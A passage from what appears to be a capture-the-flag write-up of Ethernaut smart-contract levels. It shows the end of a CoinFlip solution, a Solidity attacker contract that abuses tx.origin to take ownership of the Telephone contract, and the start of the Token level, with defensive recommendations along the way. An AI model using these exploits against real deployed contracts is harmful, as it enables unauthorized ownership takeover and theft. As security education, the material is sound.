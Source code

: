 ```solidity
    CoinFlip.flip(side);
  }

}

```
After calling the "attack" function ten times, verify you cracked the challenge by calling:
```javascript
await contract.consecutiveWins().then(answer => answer.toString()) // returns 10
```
#### My Recommendation(s)
Avoid using `block.number` and `blockhash` as a source of randomness. Instead, use oracles like Chainlink for secure random number generation.

## Level Four - Telephone:
The goal is to become the contract owner.

#### The Vulnerability
There is a misuse of `tx.origin` and `msg.sender` in the "Telephone" contract.

#### How it can be exploited
Call the "Telephone" contract with a smart contract, while passing your address as an arguement.
Like this:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface ITelephone{
    function changeOwner(address owner) external;
}
contract TelephoneAttacker{
    ITelephone Telephone;

    constructor(address _telephone) {
        Telephone = ITelephone(_telephone);
    }

    function attack() external {
        Telephone.changeOwner(tx.origin);// "tx.origin" will use the address of whoever calls the function
    }
}
```
#### My Recommendation(s)
When using `tx.origin`, ensure you know what you are doing. If an access control system must be implemented, use `require(msg.sender == owner);`.

## Level Five - Token:
The goal of this level is for you to hack the basic token contract and increase your balance to a large number.
